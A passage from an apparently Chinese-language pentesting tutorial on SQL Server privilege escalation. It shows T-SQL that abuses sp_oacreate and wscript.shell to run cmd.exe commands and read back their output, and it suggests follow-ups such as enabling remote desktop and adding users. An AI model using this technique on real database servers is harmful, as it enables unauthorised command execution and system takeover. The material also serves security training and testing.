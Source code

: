 <img src="assets/vZ7hoKwFJ3USXVD.png" alt="image-20230321123828838" style="zoom:50%;" />

### 4.3.5. 查看效果

这里我们就可以查看一下，执行的效果，当然如果你能执行命令了，那么基本上提权就是system命令，确信的情况下直接就执行你想要执行的命令吧，比如开启远程桌面，添加用户等等。

![image-20230321124219385](assets/yhe3Tl8ngZaSp6E.png)

### 4.3.6. 回显执行命令

这里也是找到一个大佬写的文章，可以实现回显执行命令。

[sql server提权](https://zhuanlan.zhihu.com/p/591938680)

```mssql
declare @shell int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@shell output
exec sp_oamethod @shell,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;
```
